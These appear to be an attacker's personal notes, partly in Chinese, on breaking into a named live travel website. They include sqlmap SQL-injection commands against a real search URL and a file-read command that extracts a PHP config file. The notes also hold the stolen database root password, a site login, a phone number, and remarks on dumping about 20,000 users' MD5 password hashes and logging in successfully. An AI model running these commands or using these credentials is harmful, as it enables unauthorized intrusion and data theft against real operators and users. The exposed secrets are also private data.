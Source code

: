 http://www.easy-tour.cn

ip:139.199.203.224

系统：http://cs.easy-tour.cn/

sqlmap -u "http://www.easy-tour.cn/search/cloudsearch?keyword=1&typeid=0" --level 3 -p keyword --tamper space2comment.py 



15237855933





![image-20200512162842266](/home/zss/.config/Typora/typora-user-images/image-20200512162842266.png)

![image-20200512162941945](/home/zss/.config/Typora/typora-user-images/image-20200512162941945.png)



user：rgx666              pwd：rgx465250



2万用户 sline_member

![image-20200512171651702](/home/zss/.config/Typora/typora-user-images/image-20200512171651702.png)



可看到密码是MD5加密

![image-20200512172303507](/home/zss/.config/Typora/typora-user-images/image-20200512172303507.png)

成功登录

![image-20200512172239442](/home/zss/.config/Typora/typora-user-images/image-20200512172239442.png)

​                                                                                                                                                                                     





```
select load_file('/usr/local/www/apache24/gdchbt/')
```

sqlmap -u "http://www.easy-tour.cn/search/cloudsearch?keyword=1&typeid=0" --batch --level 3 -p keyword --tamper space2comment.py --file-read=/usr/local/www/apache24/gdchbt/data/common.inc.php

数据库

<?php\r\n//数据库连接信息\r\n$cfg_dbhost = 'localhost';\r\n$cfg_dbname = 'stourwebcms56';\r\n$cfg_dbuser = 'root';\r\n$cfg_dbpwd = 'gzyhy617000673';\r\n$cfg_dbprefix = 'sline_';\r\n$cfg_db_language = 'utf8';\r\n\r\n\r\n?>'



http://cs.easy-tour.cn/index.php/Index/kfurl?kf=149806532

![image-20200512223347162](/home/zss/.config/Typora/typora-user-images/image-20200512223347162.png)

![image-20200512223614753](/home/zss/.config/Typora/typora-user-images/image-20200512223614753.png)





wordpress

![image-20200513122737322](/home/zss/.config/Typora/typora-user-images/image-20200513122737322.png)